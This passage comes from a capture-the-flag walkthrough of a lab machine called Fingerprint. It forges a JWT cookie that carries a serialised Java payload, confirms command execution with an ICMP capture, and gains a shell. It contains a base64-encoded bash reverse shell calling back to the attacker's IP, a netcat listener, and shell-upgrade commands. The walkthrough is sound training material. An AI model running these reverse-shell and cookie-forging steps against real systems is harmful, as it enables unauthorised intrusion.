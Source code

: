 
Then I’ll take the base64 generated above and put it into JWT.io (with the
signing secret still there), updating the `user` field. That generates a new
cookie:

[![image-20211104133623138](https://0xdfimages.gitlab.io/img/image-20211104133623138.png)_Click
for full size
image_](https://0xdfimages.gitlab.io/img/image-20211104133623138.png)

On adding that cookie to Firefox, when I refresh the page:

    
    
    oxdf@hacky$ sudo tcpdump -ni tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    13:26:38.374336 IP 10.10.10.141 > 10.10.14.6: ICMP echo request, id 50182, seq 1, length 64
    13:26:38.374362 IP 10.10.14.6 > 10.10.10.141: ICMP echo reply, id 50182, seq 1, length 64
    

#### Shell

I’ll encode a [bash reverse
shell](https://www.youtube.com/watch?v=OjkVep2EIlw) in base64 to get rid of
special characters:

    
    
    oxdf@hacky$ echo 'bash -i >& /dev/tcp/10.10.14.6/443 0>&1' | base64
    YmFzaCAtaSA+JiAvZGV2L3RjcC8xMC4xMC4xNC42LzQ0MyAwPiYxCg==
    

I’ll update the payload in my Java, and rebuild it. When I run it, I get a new
base64 encoded `UserProfileStorage` object. I’ll paste that into JWT.io to
update the cookie, and get a new one, which I can add to Firefox. On
refreshing, I get a shell:

    
    
    oxdf@hacky$ nc -lnvp 443                                          
    Listening on 0.0.0.0 443
    Connection received on 10.10.10.141 54908
    bash: cannot set terminal process group (1161): Inappropriate ioctl for device
    bash: no job control in this shell
    www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$
    

I’ll use the standard `script` trick to upgrade the shell:

    
    
    www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$ script /dev/null -c bash
    Script started, file is /dev/null
    www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$ ^Z
    [1]+  Stopped                 nc -lnvp 443
    oxdf@hacky$ stty raw -echo; fg
    nc -lnvp 443
                reset
    reset: unknown terminal type unknown
    Terminal type? screen
    www-data@fingerprint:/opt/glassfish5/glassfish/domains/domain1/config$ 
    